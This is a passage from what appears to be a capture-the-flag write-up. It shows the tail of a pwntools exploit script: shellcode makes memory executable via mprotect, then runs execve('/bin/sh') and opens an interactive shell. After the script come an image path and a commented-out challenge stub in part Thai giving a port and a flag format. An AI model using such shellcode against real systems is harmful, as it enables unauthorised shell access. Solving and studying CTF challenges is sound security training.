    shl  rdi, 0xc
    mov  rsi, 0x1000
    mov  rdx, 0x7
    mov  rax, 0xa
""")

sc1 = sc1.ljust(0x80, asm("nop"))
sc2 = asm(shellcraft.execve("/bin/sh", ["sh"], 0))

p.send(flat(sc1, sc2))
p.interactive()
```



<!--

# Easy or Hard

*Enum is key because flag name is random (size >= 64)* \
*สามารถเชื่อมได้ผ่าน nc ip 9999* \
*Flag Format: WANLAI{MD5}*

TODO:

-->
